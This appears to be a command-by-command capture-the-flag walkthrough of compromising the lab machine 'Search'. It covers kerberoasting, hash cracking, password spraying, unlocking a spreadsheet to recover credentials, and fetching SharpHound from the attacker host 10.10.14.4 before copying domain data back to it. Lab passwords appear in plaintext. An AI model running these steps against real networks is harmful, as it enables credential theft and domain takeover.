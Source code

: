 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.129
```
![image](https://user-images.githubusercontent.com/33616880/230699143-58aa6593-510f-4de6-be67-cbf555c08f22.png)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.11.129/FUZZ -e .aspx,.php,.txt,.html
```
![image](https://user-images.githubusercontent.com/33616880/230701612-546d5a49-33f8-4063-8d96-72d2d45f9cfe.png)


hope.sharp | IsolationIsKey?

![image](https://user-images.githubusercontent.com/33616880/230699047-df9e814d-0ef6-4377-97bd-72824e5dd6e5.png)


```
smbclient -L \\\\10.10.11.129\\ -U search.htb/hope.sharp
smbclient \\\\10.10.11.129\\RedirectedFolders$ -U search.htb/hope.sharp
```
![image](https://user-images.githubusercontent.com/33616880/230700602-75be21ee-a7d1-4ed8-8465-1a226ae419f0.png)
![image](https://user-images.githubusercontent.com/33616880/230700731-c773018c-6f8d-4ed7-8812-ced8a52b3d05.png)


```
ldapdomaindump -u search\\hope.sharp -p IsolationIsKey? 10.10.11.129
```
![image](https://user-images.githubusercontent.com/33616880/230699359-15a9ef35-6723-4822-b1e6-ab93ec59e2cb.png)
![image](https://user-images.githubusercontent.com/33616880/230699421-3b664dda-82d1-473a-8c1f-2b29de81fb90.png)


```
cp /usr/share/doc/python3-impacket/examples/GetUserSPNs.py .
./GetUserSPNs.py search.htb/hope.sharp -dc-ip 10.10.11.129 -request
```
![image](https://user-images.githubusercontent.com/33616880/230699598-ab7213a0-fb91-4395-a5b0-345b7e2fb34a.png)


```
john hash-web_svc -w=/usr/share/wordlists/rockyou.txt
```
web_svc | @3ONEmillionbaby

![image](https://user-images.githubusercontent.com/33616880/230699690-2850b510-c824-49fa-a20f-c4a3044c0fc1.png)


![image](https://user-images.githubusercontent.com/33616880/230699760-4770c7a8-b7ee-4a9d-9398-d2298e8863e4.png)


```
grep "HelpDesk User" domain_users.grep | awk -F'\t' '{print $3}'
```
![image](https://user-images.githubusercontent.com/33616880/230700117-68ed59b8-9ab2-4831-be38-7421ada171f7.png)



```
crackmapexec smb 10.10.11.129 -u user_opt.txt -p @3ONEmillionbaby
```
search.htb\Edgar.Jacobs:@3ONEmillionbaby

![image](https://user-images.githubusercontent.com/33616880/230700260-1809d1ec-e297-4d00-9ba5-5213526fed84.png)


```
smbclient \\\\10.10.11.129\\RedirectedFolders$ -U search.htb/Edgar.Jacobs
```
![image](https://user-images.githubusercontent.com/33616880/230700969-8a257621-812a-4357-b398-5949598ce182.png)


![image](https://user-images.githubusercontent.com/33616880/230701046-18ec17fc-1694-4a03-9a76-90f26e1ae622.png)
```
unzip Phishing_Attempt.xlsx
sed -i 's/<sheetProtection[^>]*>//' xl/worksheets/sheet2.xml
zip -fr Phishing_Attempt.xlsx *
```
Sierra.Frye | $$49=wide=STRAIGHT=jordan=28$$18

![image](https://user-images.githubusercontent.com/33616880/230701177-73c2b4d3-8c15-4e0d-9930-900c7ce19fcf.png)
![image](https://user-images.githubusercontent.com/33616880/230701253-86e219b9-7f85-4d24-a73a-479962c1c0fa.png)


```
smbclient \\\\10.10.11.129\\RedirectedFolders$ -U search.htb/Sierra.Frye
```
![image](https://user-images.githubusercontent.com/33616880/230701438-ca0a0370-ad85-4b25-bb67-c9491f61bde8.png)
![image](https://user-images.githubusercontent.com/33616880/230701452-c57c8661-21de-4ef7-bc42-0e57ef04ab48.png)
![image](https://user-images.githubusercontent.com/33616880/230701555-c290fc03-b77a-4471-8dbf-3ebf49ad7348.png)



![image](https://user-images.githubusercontent.com/33616880/230701672-0cf8bba7-d1d6-442d-b859-5371cf1395d7.png)
![image](https://user-images.githubusercontent.com/33616880/230701705-26df0b61-24f9-4d58-a34f-b7830a9f3358.png)
```
pfx2john staff.pfx > pfx_hash
john pfx_hash -w=/usr/share/wordlists/rockyou.txt
```
![image](https://user-images.githubusercontent.com/33616880/230701880-f44b38ab-db4a-45e3-9544-d36bb638e82f.png)
![image](https://user-images.githubusercontent.com/33616880/230701923-cfcd0109-1539-44e5-94e6-5200460228e7.png)


![image](https://user-images.githubusercontent.com/33616880/230702031-e7010f86-fe69-4c70-897d-f3312121b1b4.png)
```
python3 -m http.server 80
wget 10.10.14.4/SharpHound.exe -o SharpHound.exe
./SharpHound.exe
```
![image](https://user-images.githubusercontent.com/33616880/230702230-01468743-51b4-4de4-8cc5-d551ec9d23b7.png)
![image](https://user-images.githubusercontent.com/33616880/230702368-31f4bfd3-58cc-41fd-a2d2-6ffa6264cda3.png)



```
./smbserver.py share . -smb2support -username df -password df
```
```
net use \\10.10.14.4\share /u:df df
copy 20230408050326_BloodHound.zip \\10.10.14.4\share\
```
![image](https://user-images.githubusercontent.com/33616880/230702582-cbaa9574-1756-4d57-9405-98a64c26d111.png)
![image](https://user-images.githubusercontent.com/33616880/230702543-ff4a81d9-d0e4-4c98-a178-ecd3f25e694f.png)


```
neo4j console
```
```
./BloodHound --no-sandbox
```
![image](https://user-images.githubusercontent.com/33616880/230702699-6fd438f6-781c-4644-85b6-772e17713fd8.png)


mark user as owned
shortest to admin
![image](https://user-images.githubusercontent.com/33616880/230702940-0fd2b84e-cecb-40f6-9f23-9e64f4a29a64.png)

